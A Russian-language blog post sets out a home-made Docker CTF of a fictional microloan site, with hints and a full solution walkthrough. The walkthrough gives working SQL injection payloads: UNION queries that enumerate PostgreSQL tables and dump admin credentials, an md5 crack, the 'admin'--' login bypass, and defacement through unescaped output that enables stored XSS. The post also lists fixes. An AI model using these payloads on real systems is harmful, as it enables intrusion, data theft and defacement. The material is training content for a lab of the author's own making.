






Залипла на выходных на дурацкой мысли: а как вообще выглядел «серьёзный» веб году в 2012-м? Ну, знаете — jQuery, бегущая строка с новостями, градиентные кнопки, табличная вёрстка, которая почти Bootstrap. И собрала себе вот такую МФО-шку — **QuickLoan KZ**, сайт микрозаймов, из тех, что тогда клепали за неделю на коленке и выкатывали в прод (картинка сверху — она самая).

Раз уж собрала — грех не зашить внутрь пару честных дыр и не разложить потом, как их ковырять. Получился маленький CTF на один вечер: поднимаешь в докере, тыкаешь, ломаешь. Цель простая и наглядная — **задефейсить главную**.

Пост построен так: сначала даю сам стенд и задачу, дальше **подсказки под спойлерами** (открывай по одной, если застрял), а в самом конце — **полное решение**, тоже спрятанное. Так что если хочешь пройти сам — просто не разворачивай лишнего.

> **Важно.** Это учебный стенд. Он крутится локально в докере, всё внутри выдумано: контора, люди, ИИН, номера карт — фейк для тренировки. Я ломаю его, потому что он мой. Делай так же — только со своим. Технику отсюда применяй к чужим системам только с письменного разрешения, иначе это уже статья, а не хобби.

## Поднять у себя

Нужен только docker (rootless тоже ок):

```bash
git clone https://github.com/b0tn3tt/quickloan-ctf
cd quickloan-ctf
docker compose up --build
# откроется на http://localhost:8084
```

Внутри: PHP 8.3 + PostgreSQL, пара сотен строк в одном `index.php`, сид базы в `init.sql`. Когда наиграешься:

```bash
docker compose down -v   # -v снесёт и данные
```

## Задача

Перед тобой сайт микрозаймов. Где-то есть админка, в ней — редактор контента главной. Доступа у тебя, понятно, нет.

**Цель:** получить контроль над содержимым главной страницы и повесить туда свой текст (дефейс).

Из того, что сразу бросается в глаза, — форма «Быстрая проверка заявки»: вводишь номер, она показывает статус.



Дальше — сам. Осмотрись: что сайт отдаёт, что просит не смотреть, как себя ведут формы на кривой ввод. Не угадывай пароль — тут всё решается головой, а не брутом.

## Подсказки

Разворачивай по одной.

{}
Любой осмотр начинается с того, что сервер сам про себя рассказывает. Корневые файлы, заголовки, что лежит по стандартным путям. Есть один классический файл, в который любят складывать «не индексируй вот это» — и тем самым показывают пальцем, где интересное.
{}

{}
Форма проверки заявки принимает номер и подставляет его в запрос к базе. А что будет, если вместо числа скормить ей кавычку или `1 AND 1=1`? Посмотри внимательно, что меняется в ответе и не вываливается ли ошибка.
{}

{}
Если инъекция есть — не лезь сразу за паролями. Сначала выясни, **какая СУБД** (ошибка подскажет), **сколько столбцов** в запросе и **какие таблицы** вообще существуют. У этой базы есть служебная схема, которая честно расскажет про все таблицы и колонки.
{}

{}
В админке есть логин. Пароль можно достать и подобрать… а можно вообще не доставать. Форма входа — это тоже SQL-запрос. Подумай, что произойдёт с условием `WHERE username = '...'`, если в имя пользователя попадёт кавычка и комментарий.
{}

{}
Ты внутри. Редактор правит заголовок и новости главной. Введи в заголовок не текст, а немного HTML и посмотри на главную. Экранируется ли то, что ты сохранил?
{}

## Решение

Не подглядывай, пока не попробовал сам 🙂

{}

Я шла ровно по воронке: сначала разведка, потом аккуратно подтвердить догадку, потом вытащить всё по кусочкам, и только в конце — эксплуатация.

### 1. Разведка

Первым делом — `robots.txt`:

```text
User-agent: *
Disallow: /kabinet/
```

Спасибо, что показали. `/kabinet/` — админка, но пароля нет, так что пока закрываем и идём искать точку входа на публичной части.

Кстати, плейсхолдер в форме врёт: там написано «напр. 1001», а реальные заявки — это `1`, `2`, `3`… (обычный `SERIAL` с единицы). `app_id=1001` отдаёт «не найдена», `app_id=1` — настоящую заявку. Мелочь, но показательная.

### 2. Есть ли тут SQL-инъекция

Проверяю форму статуса самым вежливым способом — кавычкой:

```text
/status?app_id=1'
```

И сайт радостно вываливает ошибку базы прямо на страницу:



```text
Ошибка базы данных: SQLSTATE[42601]: Syntax error: 7 ERROR:
unterminated quoted string at or near "'"
```

Отсюда сразу два вывода: инъекция есть, и база — **PostgreSQL** (по формату `SQLSTATE` и тексту ошибки). Для надёжности — булева проверка: `app_id=1 AND 1=1` показывает заявку, `app_id=1 AND 1=2` — нет. Значит, моё условие реально влияет на выборку.

### 3. Фингерпринт и перечисление

Запрос возвращает **пять** столбцов (`app_id, full_name, amount, status, created_at`) — видно по таблице результата. Значит, можно `UNION`. Первый подводный камень: `app_id` — целочисленный, и если сунуть туда текст (`version()`), Postgres ругнётся на несовместимость типов. Поэтому строки кладу во **второй** столбец (`full_name`, он `varchar`):

```text
/status?app_id=0 UNION SELECT NULL, version(), NULL, NULL, NULL
```

→ `PostgreSQL 9.6.24 ...`. Кто мы и где:

```text
app_id=0 UNION SELECT NULL, current_database()||'/'||current_user, NULL,NULL,NULL
```

→ `quickloan/postgres`. Теперь таблицы — через служебную схему `information_schema`:

```text
app_id=0 UNION SELECT NULL,
  string_agg(table_name, ', '), NULL,NULL,NULL
  FROM information_schema.tables WHERE table_schema='public'
```

→ `loans, clients, admin_users, site_config`. Колонки интересующей таблицы:

```text
app_id=0 UNION SELECT NULL,
  string_agg(column_name, ', '), NULL,NULL,NULL
  FROM information_schema.columns WHERE table_name='admin_users'
```

→ `id, username, password, email`.

### 4. Достаём, что лежит

```text
app_id=0 UNION SELECT NULL, username||' : '||password, NULL,NULL,NULL FROM admin_users
```

И логин-хеш админа прилетает прямо в табличку «статуса заявки»:



```text
admin : 098219f21be0b94592e527b161ca3e5f
```

Заодно видно главную проблему таких приложений: той же инъекцией вытаскивается таблица `clients` — с номерами карт, CVV и «секретными вопросами». Одна строка кода без параметров — и наружу вся база, а не только то, что задумано на странице.

### 5. Два пути в админку

**Путь А — расколоть хеш.** `098219f2...` — это несолёный `md5`. Его не «расшифровывают», а подбирают, и для md5 это секунды: любой онлайн-ресолвер или локальный словарь выдаёт `quickloan2012`.

**Путь Б — вообще не доставать пароль.** Форма входа тоже клеит запрос руками:

```sql
WHERE username = '$u' AND password = '...'
```

Значит, в поле логина пишем `admin'--` — кавычка закрывает строку, `--` комментирует остаток условия с паролем. Запрос схлопывается до `WHERE username = 'admin'`, админ находится, нас пускают. Классический обход аутентификации.



Внутри — та самая «CMS»: статистика заявок и редактор контента главной.



> Мелкий баг стенда: `/kabinet/` сам себя зацикливает в редиректе (код обрезает хвостовой слеш и путает путь входа с дашбордом). Панель открывается по любому другому пути под `/kabinet/`, например `/kabinet/panel`. На дефейс это не влияет — он и так делается прямым POST'ом на `/kabinet/save`.

### 6. Дефейс

Редактор сохраняет заголовок и новости в таблицу `site_config`. А публичная главная печатает эти значения **как есть**, без экранирования (`<?= $heroTitle ?>`), хотя в самой админке при выводе в поле формы `htmlspecialchars` зачем-то стоит. Поэтому любой HTML из заголовка становится разметкой на витрине. Пишу в «Заголовок (hero)» свой баннер — и главная моя:



Если вместо баннера положить `<script>` — это уже stored XSS, прилетающий каждому посетителю. Цепочка закрылась: `robots.txt → SQLi → информация о базе → хеш/обход входа → дефейс`.

{}

## Как такое не писать

Все дыры тут чинятся скучно и давно известно:

- **Параметризованные запросы** вместо склейки строк — и в `/status`, и в форме входа. Это убивает обе инъекции разом.
- **Пароли** через `password_hash()` (bcrypt/argon2) и `password_verify()`, а не `md5`.
- **Экранирование на выводе для всего**, включая контент из собственной админки. Данные из CMS — это тоже недоверенный ввод.
- **Секреты — в переменные окружения**, не в код и не в таблицу, которую достаёт первая же инъекция. И не печатать сырые ошибки драйвера в ответ.
- **`robots.txt` — это не замок.** Он показывает, где интересное, а не прячет его. Админку закрывают аутентификацией и сетью.

## Код

Весь стенд и `docker compose up` — здесь:

**→ [github.com/b0tn3tt/quickloan-ctf](https://github.com/b0tn3tt/quickloan-ctf)**

Поднимай у себя, ломай своё. Приятной охоты.
